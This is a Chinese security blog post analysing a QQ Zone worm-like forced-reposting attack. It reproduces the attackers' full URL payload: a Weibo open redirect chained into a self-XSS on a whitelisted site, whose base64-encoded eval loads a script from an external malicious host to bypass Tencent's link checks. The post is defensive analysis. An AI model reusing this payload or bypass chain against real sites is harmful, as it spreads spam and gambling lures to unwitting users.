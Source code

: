 ```yaml
---
title: QQ空间流氓转发分析
abbrlink: 6862
date: 2019-09-03 16:53:47
categories:
tags:
---
```


*本文原发于 <https://xz.aliyun.com/t/6238> , 仅在自己博客做个备份*

## 写在之前

最近遇到多位老哥在骂,qq空间的链接一点就转发了一个封面为色情图片,内容为菠菜站的链接.我就好奇这难道是qq空间的XSS蠕虫?

BAT关键业务出了xss在9102年也不算小事情了,至少圈内会炸锅.但是一直没消息,直到我的好友也遭到了攻击.

好奇之下,抓了个包分析.发现这是个有趣的攻击链,至少我没见过这种攻击方式.由一系列漏洞组成.

中间一段时间忘了这事,前两天翻到给微博src提交的漏洞被打回.

![1](1.png)

最后一部分转发的截图和代码忘了保留,见谅.不过这也是一个有趣的绕过qq安全机制的案例.

(貌似之前看到过有人写过分析了,昨天去找的时候又没找到,于是我又自己分析了一遍)

## 分析

### payload

```
https%3A%2F%2Fweibo.cn%2Fsinaurl%3F_wv%3D1027%26cmd%3Dplay%26u%3Dhttps%253A%252F%252Fwww.whitedomin.com%252Fmember%252Findex.php%253Fgourl%253D%25252F%25252Fst.duanwenxue.com%25252Fpost-624.html%252522%25257d%252529%25257d%25252bwindow%25255b%252522eval%252522%25255d%252528atob%252528%252522ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%252522%252529%252529%25252bfunction%252528%252529%25257b%2524.post%252528%25257b1%253A%252522%2526r%253D1561387991%2526business%253D%2523123
```

一步一步来分析.

### 微博任意url跳转

已经提交给微博并被驳回,因此公开应该没什么问题.

测试一下,将payload填到浏览器并用bp抓包,可以看到

![1](2.png)

follow redirection 302跳转到了某白名单网站的网站

### 某白名单网站self-xss

(虽然该漏洞已修复,但还是抹去相关信息)

qq空间的分析链接是有验证的,虽然不知道具体验证机制,但是大致可以猜到是白名单验证.微博显然在白名单内,而且如果是302跳转会迭代验证,直到非302响应状态码.

因此还需要个存在xss漏洞在白名单内的网站.

因此黑产找了一个存在get请求的self-xss的网站,并且通过js再次进行跳转绕过检测机制.

![1](3.png)

```
https://www.whitedomin.com/member/index.php?gourl=%2F%2Fst.whitedomin.com%2Fpost-624.html%22%7d%29%7d%2bwindow%5b%22eval%22%5d%28atob%28%22ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%22%29%29%2bfunction%28%29%7b$.post%28%7b1:%22&r=1561387991&business=#123
```

xss漏洞存在于该网站站内跳转的gourl参数,再次经过302跳转后同时指向了self-xss的js代码.

```
"})}+window["eval"](atob("ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp"))+function(){$.post({1:"&r=1561387991&business=#123
```

base64解码:

`document.write("<script src='https://img.dafeiblog.com/web/if.php'></script>")`

可以看到,再次跳转向了第三方的网站,绕过了腾讯的检测机制.

### 恶意域名执行转发

(因为当时在hw,只抽了几分钟大致看了一下,以为保留了该页面的恶意js代码,后来找的时候发现并没有,抱歉)

(所以这一部分主要根据我的记忆以及猜想)

该恶意网站伪造了腾讯拦截页面.

![1](4.png)

因为腾讯的拦截页面并不显示url,所以普通用户很难发现是伪造的.

该页面下镶嵌有恶意js代码,只有30-40行,大致是两个XHR请求的函数.

猜测功能应该是跳转到博彩网站,以及请求腾讯空间转发接口.

这时候手机端按返回键回到qq空间,就会有个弹窗,提示是否转发.选择不转发还会跳出来,强行结束qq进程才能停止弹窗.

听说低qq版本或是低安卓版本没有这个提示框,会直接转发,(我并没有验证过)

## 小结

利用链是这样的:

微博任意url跳转 --- 其他白名单内网站self-xss --- 跳转至恶意网站执行恶意js 

这种绕过方法算是self-xss的新用法,用作绕过某些存在分享内容安全检测的应用.(至少我没见过)

因为恶意网站js代码没有保存.因此并不知道是如何实现的qq空间转发功能以及无限循环转发弹窗.

因为过程中并没有传输用户相关信息,只能猜测是qq提供了转发的api以供第三方应用调用,导致被黑产利用.

可以参考下这两篇较早的文章,虽然利用思路完全不一样.

<https://www.freebuf.com/vuls/75711.html>

<https://www.freebuf.com/column/144879.html>